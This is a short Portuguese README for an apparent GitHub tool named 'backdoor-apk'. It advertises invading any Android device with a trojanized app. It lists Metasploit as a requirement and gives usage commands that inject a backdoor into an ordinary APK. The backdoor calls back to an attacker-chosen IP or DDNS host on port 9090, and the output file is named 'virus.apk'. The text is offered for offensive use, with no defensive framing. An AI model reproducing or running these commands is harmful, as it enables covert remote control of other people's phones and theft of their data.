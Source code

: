 # backdoor-apk
Invada qualquer Android usando um APK!

Necessário o Perl, MSF(console e venom), um APK(qualquer) e porta aberta, é claro..

Para adcionar o Backdoor ao APK use por exemplo:

IP:
./backdoor-apk test.apk 192.168.1.143 9090 virus.apk
Host/DDNS:
./backdoor-apk test.apk fuckthisn0ip.ddns.net 9090 virus.apk

Meu canal no YT: https://www.youtube.com/channel/UC_0YeOjcY-d_Tq0Kvcf4CKg
